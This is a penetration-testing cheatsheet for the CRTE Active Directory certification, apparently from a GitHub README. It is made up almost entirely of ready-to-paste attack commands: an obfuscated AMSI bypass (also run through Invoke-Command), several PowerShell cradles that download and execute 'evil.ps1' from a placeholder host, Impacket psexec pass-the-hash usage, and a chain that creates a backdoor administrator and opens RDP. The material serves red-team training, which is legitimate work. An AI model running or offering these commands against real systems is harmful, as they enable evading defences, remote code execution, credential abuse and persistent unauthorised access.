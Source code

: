 # CRTE-Cheatsheet
Currently copied from CRTP-cheatsheet but will add more!

# Summary
* [General](#General)
* [Domain Enumeration](#Domain-Enumeration.md) 
* [Local privilege escalation](#Local-privilege-escalation)
* [Lateral Movement](#Lateral-Movement)
* [Domain privilege escalation](#Domain-privilege-escalation)
* [Domain Persistence](#Domain-Persistence)
   
# General
#### Access C disk of a computer (check local admin)
```
ls \\<computername>\c$
```

#### Use this parameter to not print errors powershell
```
-ErrorAction SilentlyContinue
```

#### Rename powershell windows
```
$host.ui.RawUI.WindowTitle = "<naam>"
```

#### Impacket PSexec impacket
If no LM Hash use an empty one: ```aad3b435b51404eeaad3b435b51404ee```
```
python3 psexec.py -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME>@<TARGET>
python3 psexec.py <DOMAIN>/<USERNAME>:<PASSWORD>@<TARGET>
```

#### AMSI Bypass
- https://amsi.fail/
- Then obfuscate with https://github.com/danielbohannon/Invoke-Obfuscation
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
Invoke-Command -Scriptblock {S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )} $sess
```

#### Download and execute cradle
```
iex (New-Object Net.WebClient).DownloadString('https://xx.xx.xx.xx/payload.ps1')

$ie=New-Object -ComObjectInternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://xx.xx.xx.xx/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

#PSv3 onwards

iex (iwr 'http://xx.xx.xx.xx/evil.ps1')

$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://xx.xx.xx.xx/evil.ps1',$false);$h.send();iex
$h.responseText

$wr = [System.NET.WebRequest]::Create("http://xx.xx.xx.xx/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

### Add user to local admin and RDP group and enable RDP on firewall
```
net user <USERNAME> <PASSWORD> /add /Y  && net localgroup administrators <USERNAME> /add && net localgroup "Remote Desktop Users" <USERNAME> /add && reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f && netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
